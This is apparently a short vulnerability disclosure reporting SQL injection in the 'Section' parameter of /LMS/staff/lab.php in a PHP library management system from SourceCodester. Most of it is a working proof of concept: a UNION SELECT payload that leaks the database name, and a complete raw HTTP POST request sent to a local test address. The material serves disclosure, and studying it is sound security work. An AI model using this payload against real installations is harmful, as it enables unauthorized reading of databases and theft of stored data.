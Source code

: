 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/staff/lab.php

Vulnerability location:  /LMS/staff/lab.php?Section=, Section

[+] Payload: submit=1&Section=-1'%20union%20select%201,2,database(),4,5,6,7,8,9,10--%20&Status=1 // Leak place ---> Section

```sql
POST /LMS/staff/lab.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

submit=1&Section=-1'%20union%20select%201,2,database(),4,5,6,7,8,9,10--%20&Status=1
```

![image](https://user-images.githubusercontent.com/54017627/180444921-90adb40c-e4b1-45b7-88a9-f3bf4064f5fe.png)
